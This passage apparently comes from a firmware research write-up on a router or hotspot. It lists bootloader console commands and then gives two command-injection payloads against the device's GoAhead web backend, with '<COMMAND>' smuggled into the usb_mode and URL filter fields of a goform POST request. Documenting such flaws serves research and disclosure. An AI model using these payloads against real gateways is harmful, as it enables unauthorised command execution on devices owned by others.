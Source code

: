 | part_valid_space_query | get partition valid physics space size |
| ping       | send ICMP ECHO_REQUEST to network host |
| printenv | print environment variables |
| ram_start | ram_start: ram_start |
| read_board_type | read board type. |
| reboot    | reboot: reboot |
| reset      | Perform RESET of the CPU |
| run         | run commands in an environment variable |
| set         | set : set [module] [size] |
| setenv    | set environment variables |
| showvar   | print local hushshell variables |
| single_part_bbc | single partition bad block count |
| test       | minimal test like /bin/sh |
| testusb   | testusb: testusb [size] |
| tftp       | boot image via network using TFTP protocol |
| tftpput   | TFTP put command, for uploading files to a server |
| version   | print monitor, compiler and linker version |


### Exploiting Code Execution Vulnerabilities

Certain code execution vulnerabilities stem from improper handling (without proper sanitization) of arguments passed into the GoAhead backend. Although many of these flaws have been addressed and patched in recent firmware updates, some may still be present in older versions.

Exploit 1
```shell
url: http://[Gateway_IP]/goform/goform_set_cmd_process
method: POST
payload: {'isTest':'false', 'goformId':'USB_MODE_SWITCH', 'usb_mode':'6;<COMMAND>'}
```

Exploit 2
```shell
url: http://[Gateway_IP]/goform/goform_set_cmd_process
method: POST
payload: {'isTest':'false', 'goformId':'URL_FILTER_ADD', 'addURLFilter':'http://just_another_text/&&<COMMAND>&&'}
```

---
